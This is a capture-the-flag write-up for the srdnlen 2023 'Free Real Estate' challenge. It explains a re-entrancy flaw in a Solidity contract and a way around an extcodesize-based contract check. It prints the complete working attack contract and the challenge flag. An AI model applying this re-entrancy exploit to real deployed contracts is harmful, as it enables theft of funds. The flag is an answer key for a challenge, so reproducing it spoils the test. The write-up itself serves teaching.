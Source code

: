 Free Real Estate
srdnlen 2023
Stefanoz45, rickbonavigo
# Introduction

In this challenge, we are given a Solidity smart-contract, which is deployed on the Sepolia Testnet.

The smart-contract simulates an "ad service" where users can register and buy ads. 
Upon signup, each user receives 10 "freebies," which are tokens that can be converted to "account" money. 
There is no direct way to top-up the account, so we have to find an exploit.

To get the flag, we have to buy an ad containing a specific string which is given by the challenge bot.

# The challenge contract - `InNOut`

Here is the source code of the smart-contract given by the challenge:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.21;

contract InNOut {
    string data = "Welcome to my smart contract! please don't vandalize it >:(";
    int256 THRESHOLD = 100;

    mapping(address => int256) public accounts;
    mapping(address => int256) public freebies;
    mapping(address => bool) public registered;
    
    constructor () {
    }

    modifier moneyBags(address _addr) {
        require (accounts[_addr]>THRESHOLD);
        _;
    }

    modifier isNotContract(address _a) {
        uint size;
        assembly {
            size := extcodesize(_a)
        }
        require(size == 0);
        _;
    }

    function checkAccountStatus(address _addr) public view returns(int256,int256) {
        return (freebies[_addr],accounts[_addr]);
    }

    function redeem(int256 tickets) public payable {
        // You can have a little money, as a treat. No funny business!
        require(registered[msg.sender]);
        require(freebies[msg.sender] >= tickets);
        require(tickets >= 0);
        // Show me your wallet though.
        (bool status, ) = payable(msg.sender).call{value:msg.value}("returnWallet"); 
        require(status, "Couldn't send the money back, reverting...");
        freebies[msg.sender] -= tickets;
        accounts[msg.sender] += tickets;
    }

    function createAccount() public isNotContract(msg.sender) {
        registered[msg.sender] = true;
        freebies[msg.sender] = 10;
        accounts[msg.sender] = 0;        
    }

    function buyAdSpace(string memory newAd) public moneyBags(msg.sender) {
        // If you're rich enough we won't even ask you for money.
        data = newAd;
    }

    function showAd() public view returns (string memory) {
        return data;
    }
}
```

# The attack

## Finding an attack surface

We started looking at this challenge and immediately noticed that it was possible to do a re-entrancy attack on the `redeem` function.

Re-entrancy attacks work by using recursion when there is flawed logic. In the `redeem` function, there is a call to the `returnWallet` function of the address interacting with the contract. This call is done immediately after the check that the address has enough `freebies` to redeem, but the `freebies` are actually decremented after this call.

More information on the re-entrancy attack can be found here: [Alchemy Reentrancy Attack](https://www.alchemy.com/overviews/reentrancy-attack-solidity).

So the idea is:
- We make a new contract called `AttackContract` with an `Attack` function
- The `Attack` function calls the `redeem` function on the `InNOut` contract
- The `InNOut` contract tries to call the returnWallet function on our `AttackContract`
- When a call is made to a function that doesn't exist, the EVM redirects the call to `fallback`. So we can just write a `fallback` function instead of `returnWallet`.
- The `fallback` function is the one that makes the recursive calls to the other contract

## Bypassing the `isNotContract` modifier

To prevent re-entrancy attacks, some mitigations can be used. One of these is checking that the address interacting with the contract is not another contract. In fact, on Ethereum, an address is either an "external" address (a standard wallet) or a contract.

If we look at the `createAccount` function, we can see that the `isNotContract` is used: it supposedly checks that the address interacting with the `inNOut` contract is "external".

If we look more closely, the `isNotContract` uses `extcodesize` under the hood. After a quick search on the web, we discover that it is not really secure. Here is a quote from [Consensys](https://consensys.github.io/smart-contract-best-practices/development-recommendations/solidity-specific/extcodesize-checks/):

> The idea is straightforward: if an address contains code, it's not an EOA but a contract account. However, a contract does not have source code available during construction. This means that while the constructor is running, it can make calls to other contracts, but extcodesize for its address returns zero.

The bypass can be implemented as follows:

```solidity
pragma solidity >=0.8.0 <0.9.0;

interface IFreeRealEstate {
  ...
}
  
contract AttackContract {
    ...
    
    IFreeRealEstate c;

    constructor (address _a) public {
        c = IFreeRealEstate(_a);
        c.createAccount();
        count = 0;

    }

    ...
}
```

## One final bit

The EVM uses some Ethereum as "tax" (technically known as "gas") for each operation done. So, the recursive call has to stop somehow, otherwise it will consume all the gas set for the transaction and the transaction will fail (revert).

We decided to use a simple counter in the `fallback` function so that as to execute just 10 calls, as we need 100 "freebies" to win.

## Testing the contract

To test and deploy our smart-contracts, we used [Scaffold-ETH](https://scaffoldeth.io/), which provides an easy framework for experimenting with Solidity.

We tested that everything was working on a local chain (`Hardhat`) and then deployed to Sepolia.

## Grabbing the flag

After deploying the smart-contract to Sepolia, we:
- Connected to the bot with `netcat`
- Used the re-entrancy attack to earn 100 freebies
- Bought the ad
- Sent `I Affirm` to the bot and received the flag back

The flag is: `srdnlen{all_my_precious_monkes_gone_95b73faa9203447e}`

# The contract we used - `AttackContract`

```solidity
pragma solidity >=0.8.0 <0.9.0;

interface IFreeRealEstate {
    function createAccount() external ;
    function buyAdSpace(string memory) external ;
    function showAd() external returns (string memory);
    function checkAccountStatus() external returns(int256,int256);
    function redeem(int256) external  payable;
 }
  
contract AttackContract {
    int public count;

    IFreeRealEstate c;
    constructor (address _a) public {
        c = IFreeRealEstate(_a);
        c.createAccount();
        count = 0;
    }

    function attack() public {
        c.redeem(10);
    }

    function buy(string memory pd) public {
        c.buyAdSpace(pd);
    }

    fallback() external payable {
        if (count < 10) {
            count += 1;
            c.redeem(10);
        }
    }
}
```